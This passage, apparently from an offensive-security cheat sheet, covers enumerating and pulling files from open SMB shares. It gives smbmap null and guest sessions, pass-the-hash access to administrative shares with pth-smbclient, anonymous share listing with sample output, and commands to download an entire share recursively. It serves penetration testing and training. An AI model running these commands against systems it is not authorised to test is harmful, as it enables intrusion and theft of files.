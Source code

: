 
### Open Shares

> Some shares can be accessible without authentication, explore them to find some juicy files

* [smbmap](https://github.com/ShawnDEvans/smbmap)
  ```powershell
  smbmap -H 10.10.10.10                # null session
  smbmap -H 10.10.10.10 -R             # recursive listing
  smbmap -H 10.10.10.10 -u invaliduser # guest smb session
  smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
  ```

* [pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
  ```powershell
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
  ls  # list files
  cd  # move inside a folder
  get # download files
  put # replace a file
  ```

* [smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)
  ```powershell
  smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
          Sharename       Type      Comment
          ---------       ----      -------
          ADMIN$          Disk      Remote Admin
          C$              Disk      Default share
          IPC$            IPC       Remote IPC
          NETLOGON        Disk      Logon server share
          Replication     Disk      
          SYSVOL          Disk      Logon server share
          Users           Disk
  use Sharename # select a Sharename
  cd Folder     # move inside a folder
  ls            # list files
  ```

* [smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](#)
  ```powershell
  smbclient -U username //10.0.0.1/SYSVOL
  smbclient //10.0.0.1/Share

  # Download a folder recursively
  smb: \> mask ""
  smb: \> recurse ON
  smb: \> prompt OFF
  smb: \> lcd '/path/to/go/'
  smb: \> mget *
  ```

### SCF and URL file attack against writeable share
